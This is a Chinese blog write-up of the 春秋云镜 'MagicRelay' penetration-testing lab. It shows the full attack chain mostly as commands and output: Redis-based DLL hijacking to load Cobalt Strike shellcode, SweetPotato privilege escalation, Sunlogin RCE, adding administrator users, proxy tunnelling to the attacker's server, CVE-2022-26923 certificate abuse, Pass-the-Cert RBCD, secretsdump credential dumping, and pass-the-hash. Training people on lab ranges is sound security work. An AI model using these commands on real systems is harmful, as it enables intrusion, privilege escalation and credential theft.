







+++
title= "春秋云镜MagicRelay"
slug= "springautumn-cloudmirror-magicrelay"
description= "Redis利用DLL劫持、向日葵RCE、CVE-2022-26923、Pass-The-Cert"
date= "2025-08-20T17:39:42+08:00"
lastmod= "2025-08-20T17:39:42+08:00"
image= ""
license= ""
categories= ["春秋云镜"]
tags= ["Pentest"]

+++

## 说在前面

最开始的redis入口，即使第一次劫持失败了，也依旧可以继续尝试，但是一旦成功了一次，如果选择下线就不能成功第二次了，并且其中修改shellcode前，产生项目的命令必须为

```cmd
python DLLHijacker.py C:\Windows\System32\dbghelp.dll

python DLLHijacker.py dbghelp.dll
```

不能使用`Win11dbghelp.dll`等不规范的文件名，不然也会失败

## flag1

```bash
root@iZ2vc00kcpt25b5vsbivjvZ:/var/www/html# ./fscan -h 39.99.238.25 -p 0-65535

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
39.99.238.25:135 open
39.99.238.25:139 open
39.99.238.25:445 open
39.99.238.25:3389 open
39.99.238.25:6379 open
39.99.238.25:15774 open
39.99.238.25:47001 open
39.99.238.25:49666 open
39.99.238.25:49665 open
39.99.238.25:49670 open
39.99.238.25:49668 open
39.99.238.25:49669 open
39.99.238.25:49664 open
39.99.238.25:49667 open
39.99.238.25:49675 open
39.99.238.25:49676 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo 
[*]39.99.238.25
   [->]WIN-YUYAOX9Q
   [->]172.22.12.25
[*] WebTitle http://39.99.238.25:47001 code:404 len:315    title:Not Found
[+] Redis 39.99.238.25:6379 unauthorized file:C:\Program Files\Redis/dump.rdb
```

扫描一下，发现redis服务，链接上去发现版本  `redis-cli -h 39.99.238.25`得到版本为3.0.504，这个版本是一般的Windows自带版本，可以查找资料

https://www.cnblogs.com/sup3rman/p/16803408.html

https://xz.aliyun.com/news/13892

第二篇文章简直和我们这里要打的场景那是一模一样，

VS2022  ：https://github.com/P4r4d1se/dll_hijack  

VS2019  ： https://github.com/kiwings/DLLHijacker

项目在这里，如果你是Windows11，那直接在本地的`C:\Windows\System32`下找到dbghelp.dll处理一下即可，如果你是Windows10，那你就要自己去找人要一个Windows11的，在Windows里面运行命令，不然生成出来的项目就会失败

```cmd
python DLLHijacker.py C:\Windows\System32\dbghelp.dll

python DLLHijacker.py dbghelp.dll
```

用VS2022载入项目，会提示升级，点确认，靶机出网，准备上线CS，先生成shellcode


修改设置(先知那个BYD，他没写)，打开项目属性，

1、设置运行库为多线程 (/MT 或 /MTd)：

- 在属性页面中，导航到：配置属性 > C/C++ > 代码生成。
- 找到 “运行库”（Runtime Library）选项。
- 如果当前是 Release 配置（截图中您已选择 Release x64），设置为 “多线程 (/MT)”。
- 如果是 Debug 配置，设置为 “多线程调试 (/MTd)”。
- 确保在顶部下拉菜单中选择正确的配置（Release 或 Debug）。

2、禁用安全检查 (/GS)：

- 仍在 配置属性 > C/C++ > 代码生成 页面。
- 找到 “安全检查”（Buffer Security Check）选项。
- 设置为 “禁用安全检查 (/GS-)”。

3、关闭生成清单：

- 导航到：配置属性 > 链接器 > 清单文件。
- 找到 “生成清单”（Generate Manifest）选项。
- 设置为 “否 (/MANIFEST:NO)”。





应用，编译成dll文件即可

https://github.com/r35tart/RedisWriteFile 

https://github.com/0671/RabR

这两个项目都可以主从复制，去覆盖redis的DLL，达到劫持的效果，在服务器上面运行

```bash
python3 RedisWriteFile.py --rhost 39.99.240.173 --rport 6379 --lhost 47.109.176.117 --lport 16379 --rpath 'C:\\Program Files\\Redis\\' --rfile 'dbghelp.dll' --lfile 'dbghelp.dll'


# redis链接执行命令加载DLL
redis-cli -h 39.99.240.173
bgsave
```


或者是用RabR，我感觉这个更方便，可以直接上线

```bash
python3 redis-attack.py -r 39.99.231.97 -L 47.109.176.117 -wf dbghelp.dll

h
```


成功上线


```bash
shell dir C:\Users\Administrator\flag\

shell type C:\Users\Administrator\flag\flag01.txt
```

这个用户就是域用户了

## flag2

不是system权限，需要提权，上传甜土豆、beacon.exe和fscan.exe

```bash
shell dir C:\Users\Administrator\flag\

shell .\SweetPotato.exe._obf.exe -a "whoami"
shell C:\Users\Administrator\flag\SweetPotato.exe._obf.exe -a C:\Users\Administrator\flag\beacon.exe
```



成功上线system，直接新建用户RDP上去

```bash
shell net user test1 baozongwi123! /add
shell net localgroup administrators test1 /add
```

上传stowaway搭建代理

```bash
./linux_x64_admin -l 2334 -s 123

.\windows_x64_agent.exe -c 47.109.176.117:2334 -s 123 --reconnect 8

use 0
socks 5555

sudo vim /etc/proxychains4.conf
```

扫描一下这个网段

```bash
ipconfig

C:\Users\Administrator\flag>.\fscan.exe -h 172.22.12.25/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.12.6     is alive
(icmp) Target 172.22.12.12    is alive
(icmp) Target 172.22.12.25    is alive
(icmp) Target 172.22.12.31    is alive
[*] Icmp alive hosts len is: 4
172.22.12.6:88 open
172.22.12.25:6379 open
172.22.12.31:445 open
172.22.12.25:445 open
172.22.12.12:445 open
172.22.12.6:445 open
172.22.12.31:139 open
172.22.12.25:139 open
172.22.12.12:139 open
172.22.12.6:139 open
172.22.12.31:135 open
172.22.12.6:135 open
172.22.12.12:135 open
172.22.12.25:135 open
172.22.12.31:80 open
172.22.12.12:80 open
172.22.12.31:21 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo
[*]172.22.12.25
   [->]WIN-YUYAOX9Q
   [->]172.22.12.25
[*] NetInfo
[*]172.22.12.12
   [->]WIN-AUTHORITY
   [->]172.22.12.12
[*] NetInfo
[*]172.22.12.6
   [->]WIN-SERVER
   [->]172.22.12.6
[*] NetInfo
[*]172.22.12.31
   [->]WIN-IISQE3PC
   [->]172.22.12.31
[*] OsInfo 172.22.12.6  (Windows Server 2016 Standard 14393)
[*] NetBios 172.22.12.31    WORKGROUP\WIN-IISQE3PC
[*] NetBios 172.22.12.12    WIN-AUTHORITY.xiaorang.lab          Windows Server 2016 Datacenter 14393
[*] NetBios 172.22.12.6     [+] DC:WIN-SERVER.xiaorang.lab       Windows Server 2016 Standard 14393
[+] ftp 172.22.12.31:21:anonymous
   [->]SunloginClient_11.0.0.33826_x64.exe
[*] WebTitle http://172.22.12.12       code:200 len:703    title:IIS Windows Server
[*] WebTitle http://172.22.12.31       code:200 len:703    title:IIS Windows Server
[+] PocScan http://172.22.12.12 poc-yaml-active-directory-certsrv-detect
[+] Redis 172.22.12.25:6379 unauthorized file:C:\Program Files\Redis/dump.rdb
已完成 17/17
[*] 扫描结束,耗时: 14.7827441s
```

- 172.22.12.12 WIN-AUTHORITY.xiaorang.lab  poc-yaml-active-directory-certsrv-detect
- 172.22.12.6   DC:WIN-SERVER.xiaorang.lab(Windows Server 2016 Standard 14393)
- 172.22.12.31:21   ftp :anonymous   SunloginClient_11.0.0.33826_x64.exe
- 172.22.12.25  已经被控

先打向日葵 https://github.com/Mr-xn/sunlogin_rce

```bash
.\xrkRce.exe -h 172.22.12.31 -t scan
```



权限足够，直接添加用户上去

```bash
.\xrkRce.exe -h 172.22.12.31  -t rce -p 49687 -c "whoami"


.\xrkRce.exe -h 172.22.12.31  -t rce -p 49687 -c "net user test1 baozongwi123! /add"
.\xrkRce.exe -h 172.22.12.31  -t rce -p 49687 -c "net localgroup administrators test1 /add"
```

拿到第二个flag，

```bash
wmic computersystem get domain

net config workstation
```

发现并不在域里面这台机器，而是工作组

## flag4

CS执行`logonpasswords`，得到机器用户hash，来查询证书



```bash
proxychains4 certipy-ad find -u 'WIN-YUYAOX9Q$' -hashes 'e611213c6a712f9b18a8d056005a4f0f' -dc-ip 172.22.12.6
```

确实可以用**Machine**模版，创建用户、申请证书、申请票据

```bash
sudo vim /etc/hosts
172.22.12.6 xiaorang.lab
172.22.12.12 WIN-AUTHORITY.xiaorang.lab
172.22.12.6 WIN-SERVER.xiaorang.lab

proxychains4 certipy-ad account create -user 'TEST4$' -pass 'P@ssw0rd' -dns WIN-SERVER.xiaorang.lab -dc-ip 172.22.12.6 -u 'WIN-YUYAOX9Q$' -hashes 'e611213c6a712f9b18a8d056005a4f0f'

proxychains4 certipy-ad req -u 'TEST4$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-WIN-AUTHORITY-CA' -dc-ip 172.22.12.6 -template 'Machine' -target 172.22.12.12

proxychains4 -q certipy-ad auth -pfx win-server.pfx -dc-ip 172.22.12.6
```



没成功，把 PFX 文件转成 `crt` 和 `key`，利用**Pass-The-Cert**来配置RBCD，伪造管理员申请票据

```bash
openssl pkcs12 -in win-server.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt

proxychains4 python3 passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.12.6

proxychains4 python3 passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.12.6 -delegate-to 'WIN-SERVER$' -delegate-from 'TEST2$'

proxychains4 impacket-getST xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/win-server.xiaorang.lab -impersonate Administrator -dc-ip 172.22.12.6


export KRB5CCNAME=Administrator@cifs_win-server.xiaorang.lab@XIAORANG.LAB.ccache


proxychains4 impacket-psexec Administrator@WIN-SERVER.xiaorang.lab -k -no-pass -dc-ip 172.22.12.6
```

## flag3

导出`NTHash`直接横向

```bash
proxychains4 impacket-secretsdump -k -no-pass xiaorang.lab/administrator@WIN-SERVER.xiaorang.lab

proxychains4 impacket-secretsdump -k -no-pass xiaorang.lab/administrator@WIN-SERVER.xiaorang.lab -just-dc-user administrator
```



有两个，都试一下

```bash
aad3b435b51404eeaad3b435b51404ee:d418e6aaeff1177bee5f84cf0466802c
aad3b435b51404eeaad3b435b51404ee:aa95e708a5182931157a526acf769b13

proxychains4 impacket-wmiexec xiaorang.lab/administrator@172.22.12.12 -hashes aad3b435b51404eeaad3b435b51404ee:aa95e708a5182931157a526acf769b13 -codec gbk
```

